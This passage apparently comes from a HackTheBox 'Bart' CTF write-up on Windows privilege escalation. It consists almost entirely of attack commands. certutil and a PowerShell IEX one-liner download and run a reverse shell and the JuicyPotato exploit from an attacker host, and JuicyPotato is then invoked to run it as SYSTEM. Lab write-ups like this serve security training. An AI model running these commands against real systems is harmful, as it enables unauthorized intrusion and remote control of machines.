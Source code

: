 `https://github.com/ohpe/juicy-potato/releases/tag/v0.1`

```sh
certutil -urlcache -split -f http://10.10.14.20:8000/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2008:42:04.png)

Now we create a call

`powershell "IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.20:8000/Invoke-PowerShellTcp.ps1')"`

`certutil -urlcache -split -f http://10.10.14.20:8000/reverse.bat C:\Users\Public\reverse.bat`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2008:44:13.png)

```ps
.\JuicyPotato.exe -t * -p .\reverse.bat -l 1111 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2009:13:03.png)